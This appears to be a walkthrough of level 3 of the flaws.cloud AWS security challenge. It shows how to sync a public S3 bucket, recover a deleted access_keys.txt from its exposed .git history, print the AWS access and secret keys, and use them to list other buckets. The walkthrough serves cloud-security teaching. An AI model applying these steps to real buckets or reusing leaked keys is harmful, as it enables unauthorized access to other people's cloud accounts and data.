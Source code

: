 # [Level 3](http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/)

* List bucket contents and notice a `.git` folder:

```bash
$ aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ --no-sign-request --region us-west-2
                           PRE .git/
2017-02-26 16:14:33     123637 authenticated_users.png
2017-02-26 16:14:34       1552 hint1.html
2017-02-26 16:14:34       1426 hint2.html
2017-02-26 16:14:35       1247 hint3.html
2017-02-26 16:14:33       1035 hint4.html
2017-02-26 18:05:16       1703 index.html
2017-02-26 16:14:33         26 robots.txt
```

* Download bucket contents:

```bash
$ mkdir dir && aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ dir --no-sign-request --region us-west-2
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/HEAD to .git/HEAD
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/COMMIT_EDITMSG to .git/COMMIT_EDITMSG
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/config to .git/config
# etc.
```

* Checkout the logs from the git repo:

```bash
$ cd dir && git log
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```

* See what changed:

```bash
$ git diff f52ec03b227ea6094b04e43f475fb0126edb5a61 b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526
diff --git a/access_keys.txt b/access_keys.txt
deleted file mode 100644
index e3ae6dd..0000000
--- a/access_keys.txt
+++ /dev/null
@@ -1,2 +0,0 @@
-access_key AKIAJ366LIPB4IJKT7SA
-secret_access_key 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
```

* Use keys to list all s3 buckets:

```bash
aws configure --profile flaws
aws --profile flaws s3 ls
# 2017-02-26 10:49:31 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
```
